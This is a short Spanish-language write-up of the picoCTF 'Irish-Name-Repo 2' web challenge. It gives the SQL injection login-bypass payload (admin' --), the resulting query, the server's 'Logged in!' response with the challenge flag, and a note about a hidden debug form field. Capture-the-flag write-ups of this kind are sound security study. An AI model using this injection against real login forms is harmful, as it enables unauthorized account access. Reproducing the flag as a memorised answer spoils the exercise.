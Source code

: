 #  Irish-Name-Repo 2

---
## Objectivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751

---
## Solución
``` bash
<pre>username: admin' --

password: doesn't matter

SQL query: SELECT * FROM users WHERE name='admin' --' AND password='doesn't matter'

</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>

```

### `picoCTF{m0R3_SQL_plz_c34df170}`

---
## Notas adicionales

Hay un campo de formulario oculto llamado `debug`. Establézcalo en `0`, al activarlo podemos hacer pruebas

---
## Referencias
https://picoctf2019.haydenhousen.com/web-exploitation/irish-name-repo-2
